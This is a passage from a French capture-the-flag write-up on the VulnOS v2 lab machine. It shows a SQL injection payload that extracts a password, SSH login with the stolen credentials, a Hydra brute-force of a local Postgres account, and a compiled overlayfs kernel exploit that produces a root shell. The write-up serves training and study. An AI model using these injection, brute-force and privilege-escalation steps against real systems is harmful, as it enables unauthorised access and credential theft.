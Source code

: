 Qui correspondent tous à *toor*.  

Je continue d'explorer, trouve encore un utilisateur *webmin* pour le *OpenDocMan* et extrait son mot de passe (*webmin1980*) avec l'injection  

```plain
UNION SELECT distinct 1,password,3,4,5,6,7,8,9 from odm_user where username=0x7765626D696E
```

Le pied dans la porte
---------------------

Ces identifiants nous permettent d'avoir un accès SSH :  

```plain
$ id
uid=1001(webmin) gid=1001(webmin) groups=1001(webmin)
$ uname -a
Linux VulnOSv2 3.13.0-24-generic #47-Ubuntu SMP Fri May 2 23:31:42 UTC 2014 i686 i686 i686 GNU/Linux
$ lsb_release -a
No LSB modules are available.
Distributor ID: Ubuntu
Description:    Ubuntu 14.04.4 LTS
Release:        14.04
Codename:       trusty
```

Dans le dossier personnel de l'utilisateur on trouve une archive *post.tar.gz* qui contient un *thc-hydra*, ce qui laisserait supposer qu'il faut bruteforcer un compte.  

Comme il y a un Postgres qui écoute sur 127.0.0.1 on utilise Hydra qui trouve facilement un compte :  

```plain
[5432][postgres] host: 127.0.0.1   login: postgres   password: postgres
```

Ne connaissant pas trop *Postgres* je n'ai pas trouvé [la solution officielle](https://download.vulnhub.com/media/vulnos2/VulnOSv2%20Walkthrough%20-%20c4b3rw0lf.pdf) qui consistait à se branche sur une autre base pour y trouver le mot de passe de l'utilisateur *vulnosadmin* puis ouvrir un fichier *Blender* (wut?)... bref pas de regrets.  

J'ai eu le même réflexe que les autres participants du CTF (exploit kernel) :  

```plain
webmin@VulnOSv2:~$ gcc -o overlay overlay.c
webmin@VulnOSv2:~$ ./overlay
spawning threads
mount #1
mount #2
child threads done
/etc/ld.so.preload created
creating shared library
# id
uid=0(root) gid=0(root) groups=0(root),1001(webmin)
```
